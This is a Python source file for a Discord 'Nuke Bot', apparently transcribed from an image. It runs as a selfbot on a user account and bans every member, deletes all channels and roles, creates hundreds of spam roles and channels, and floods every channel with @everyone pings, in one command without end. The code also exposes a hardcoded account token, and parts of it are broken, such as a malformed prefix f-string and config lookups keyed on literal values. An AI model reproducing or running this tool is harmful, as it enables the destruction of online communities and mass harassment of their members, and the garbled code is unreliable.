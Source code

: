 import discord
from discord.ext import commands
from aiohttp import request
import random
import time
import os
import numpy
import string
import json

with open('config.json') as f:
    config = json.load(f)
version = "2"
token = config.get('ODU2Nzg3MDczNDU3MDYxODk4.YNGHJA.FYkqJSQG5UL6HSsJi8C6tv9GASk')
silent = config.get('silent')
prefix = config.get(':')
JumboPic = "https://upload.wikimedia.org/wikipedia/commons/thumb/a/ae/Nuclear_symbol.svg/1200px-Nuclear_symbol.svg.png"
BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[1;94m', '\033[1;91m', '\33[1;97m', '\33[1;93m', '\033[1;35m', '\033[1;32m', '\033[0m'
helplog = ('''
[Destory] Deletes everything
[Ban_all] Bans all members
[Role_delete] Deletes all roles
[Role_spam] Spams roles
[Channel_delete] Deletes all channels
[Channel_spam] Spams channels
''')
client = commands.Bot(command_prefix = f'{:}', self_bot=True)
main = (f''' 
███╗   ██╗██╗   ██╗██╗  ██╗███████╗    ██████╗  ██████╗ ████████╗
████╗  ██║██║   ██║██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗╚══██╔══╝
██╔██╗ ██║██║   ██║█████╔╝ █████╗      ██████╔╝██║   ██║   ██║   
██║╚██╗██║██║   ██║██╔═██╗ ██╔══╝      ██╔══██╗██║   ██║   ██║   
██║ ╚████║╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝   ██║   
╚═╝  ╚═══╝ ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝    ╚═╝   
                                                                 
By Jammy#4613
Version : {version}
Silent mode : {silent}
Type {prefix}help for commands
''')
@client.event
async def on_ready():
    print(main)
    print("[!]Bot online")
client.remove_command('help')

@client.command()
async def help(ctx):
    await ctx.message.delete()
    embed = discord.Embed(color=ctx.author.color)
    embed.set_author(name="Nuke Bot / Made by Jammy#4613")
    embed.add_field(name="Destory", value="\nDeletes everything!", inline=False)
    embed.add_field(name="Ban_all", value="\nBans all users", inline=False)
    embed.add_field(name="Role_delete", value="\nDeletes all roles", inline=False)
    embed.add_field(name="Role_spam", value="\nSpams roles", inline=False)
    embed.add_field(name="Channel_delete", value="\nDeletes all channels", inline=False)
    embed.add_field(name="Channel_spam", value="\nDeletes all channels", inline=False)
    embed.add_field(name="Spam_ping", value="\nSpams a msg in all channels", inline=False)
    embed.add_field(name="Destroy_ping", value="\nSpams a msg in all channels infintly", inline=False)

    embed.set_thumbnail(url=JumboPic)
    if silent == 'off':
        await ctx.send(embed=embed)
    else:
        print(helplog)

@client.command()
async def channel_delete(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Deleting channels`")
    else:
        print("[!] Deleting channels")
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
@client.command()
async def spam_ping(ctx, *, message):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for channel in list(ctx.guild.channels):
        try:
            for _i in range(25):
                await channel.send(f"@everyone {message}")    
        except:
            pass
@client.command()
async def destroy_ping(ctx, *, message):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for channel in list(ctx.guild.channels):
        try:
            while True:
                for _i in range(25):
                    await channel.send(f"@everyone {message}")    
        except:
            pass
@client.command()
async def ban_all(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Banning all users`")
    else:
        print("[!] Banning all users")
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass   
@client.command()
async def role_delete(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Deleting all roles`")
    else:
        print("[!] Deleting all roles")
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
@client.command()
async def role_spam(ctx, *, name):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming roles`")
    else:
        print("[!] Spamming roles")
    for _i in range(250):
        await ctx.guild.create_role(name=f"{name}")
@client.command()
async def channel_spam(ctx, *, name):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for _i in range(250):
        await ctx.guild.create_text_channel(name=f"{name}")

@client.event
async def on_command_error(ctx, error):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"Command not found!", delete_after=3)
    else:
        print("[!] Command not found")

@client.command()
async def destroy(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"Destorying everything")
    else:
        print("[!] Destorying everything")
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass 
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
    for _i in range(250):
        await ctx.guild.create_role(name=f"Nuked-by-Jammy#4613")
    for _i in range(250):
        await ctx.guild.create_text_channel(name=f"Nuked-by-Jammy#4613")
    print("Attack finished")
client.run(token, bot=False)
